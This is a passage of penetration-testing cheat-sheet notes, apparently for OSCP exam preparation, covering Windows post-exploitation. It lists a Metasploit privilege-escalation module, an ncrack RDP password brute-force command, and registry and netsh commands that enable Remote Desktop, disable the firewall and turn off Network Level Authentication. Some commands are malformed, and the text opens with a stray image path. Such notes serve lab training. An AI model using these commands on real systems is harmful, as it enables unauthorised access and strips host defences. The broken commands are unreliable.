 use exploit/windows/local/ms14_058_track_popup_menu 


#### Weak passwords

Remote desktop

ncrack -vv --user george -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS


### GET GUI s


#### Enable RDP

See section of terminal services in the red team field manual or check the methodologies tab in your PWK xls workbook. 

See wmic section in the red team field manual

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off

netsh firewall set opmode disable

Or like this

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?

Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

#### Enable windows 8 remote desktop

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f 

reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" \f "DenyTSConnections" /t REG_DWORD /d 0x0 /f 

reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\UserAuthentication = 0"

reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\SecurityLayer = 0"

What out for the ticks in this article

https://www.petri.com/disable-remote-desktop-network-level-authentication-using-powershell

